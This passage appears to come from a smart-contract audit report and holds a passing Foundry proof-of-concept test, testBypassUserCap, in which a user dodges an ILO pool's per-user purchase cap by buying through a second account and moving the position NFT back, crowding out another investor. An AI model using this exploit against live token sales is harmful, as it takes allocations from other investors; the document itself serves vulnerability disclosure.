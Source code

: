 ```solidity

        (uint256 tokenIdAliceSecond, uint128 liquidityAliceSecond) = _buyFor(alice, SALE_START + 1, 30000 ether); // User buys more than the max cap

        console.log("Total raised after second buy from Alice:", IILOPool(iloPool).getTotalRaised() / 1e18);
        assertEq(IILOPool(iloPool).balanceOf(alice), 1);

        vm.expectRevert(bytes("HC"));
        (uint256 tokenIdBob, uint128 liquidityBob) = _buyFor(bob, SALE_START + 1, 20000 ether); // A new investor wants to buy a position, but reverts

        assertEq(IILOPool(iloPool).balanceOf(bob), 0);

        _writeTokenBalance(SALE_TOKEN, iloPool, 95000 * 4 ether);
        vm.warp(SALE_END + 1);

        vm.prank(address(iloManager));
        IILOPool(iloPool).launch();

        vm.warp(VEST_END_1);

        vm.startPrank(aliceSecondAccount);
        ERC721(iloPool).transferFrom(aliceSecondAccount, alice, tokenIdAlice); // Alice gets her first token back
        vm.stopPrank();

        assertEq(IILOPool(iloPool).balanceOf(alice), 2);

        vm.startPrank(alice);
        IILOPool(iloPool).claim(tokenIdAlice);
        IILOPool(iloPool).claim(tokenIdAliceSecond);
        vm.stopPrank();

        assertGt(IERC20(SALE_TOKEN).balanceOf(alice), maxUserAmount);
    }
```

```
Ran 1 test for test/ILOPool.t.sol:ILOPoolTest
[PASS] testBypassUserCap() (gas: 3339405)
Logs:
  Pool hard cap:  100000
  Pool max cap per user:  60000
  Total raised after first buy from Alice: 60000
  Total raised after second buy from Alice: 90000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.65s (395.09ms CPU time)
```

### Recommended Mitigation Steps
